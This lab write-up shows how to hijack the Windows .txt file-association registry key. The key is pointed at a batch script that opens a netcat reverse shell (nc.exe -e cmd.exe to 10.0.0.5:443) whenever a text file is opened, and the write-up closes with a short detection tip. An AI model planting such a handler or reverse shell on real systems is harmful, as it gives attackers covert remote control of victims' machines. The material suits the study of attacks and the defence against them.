

# Hijacking Default File Extension

When a .txt file is double clicked, it's opened with a notepad.exe. Windows knows that it needs to use notepad.exe for opening txt files, because the `.txt` extension \(among many others\) are mapped to applictions that can open those files in Windows registry located at `Computer\HKEY_CLASSES_ROOT`.

It's possible to hijack a file extension and make it execute a malicious application before the actual file is opened. 

In this quick lab, I'm going to hijack the .txt extension - the victim user will still be able to open the original .txt file, but it will additionally fire a reverse shell back to the attacking system.

## Execution

The .txt extension handler is defined in the below registry key:

```erlang
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Below shows that the command responsible for opening .txt files is `notepad.exe %1`, where `%1` is the argument for notepad.exe, which specifies a file name the notepad should open:


Say, a target user has the file test.exe on his desktop with the below file contents:


Let's now create a malicious file that we want to be executed when the user attempts to open the benign file test.txt. For this lab, the malicious file is going to be a simple Windows batch file located in c:\tools\shell.cmd:


```erlang
start C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
start notepad.exe %1
```



Once executed, `c:\tools\hell.cmd` will launch a simple netcat reverse shell to the attacking system and also a notepad with the `test.txt` file as an argument.

We are now ready to hijack the .txt file extension by modifying the value data of  `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` to `c:\tools\shell.cmd %1` as shown below:


## Demo

Opening the test.txt file by double clikcing it opens the file itself, but a reverse shell is thrown to the attacking system as well:



## Detection

Defenders may want to monitor registry for file extension command changes, especially if the data field contains binaries located in unusual places.

## References



